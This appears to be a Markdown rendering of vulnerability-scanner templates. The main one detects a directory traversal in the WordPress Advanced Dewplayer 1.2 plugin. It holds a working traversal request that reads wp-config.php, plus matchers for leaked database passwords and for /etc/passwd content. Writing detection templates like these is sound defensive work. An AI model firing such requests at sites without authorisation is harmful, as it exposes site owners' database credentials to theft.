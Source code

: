 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Plugin Advanced Dewplayer 1.2 - Directory Traversal

## Description

- A directory traversal vulnerability in download-file.php in the Advanced Dewplayer plugin 1.2 for WordPress allows remote attackers to read arbitrary files via a .. (dot dot) in the dew_file parameter.
- severity - high
- tags - wp-plugin,lfi,edb,seclists,cve,cve2013,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/advanced-dewplayer/admin-panel/download-file.php?dew_file=../../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
  3. DB_HOST
  4. The base configurations of the WordPress
- part - body
- condition - and

**Type - status**

- status
  1. 200

---
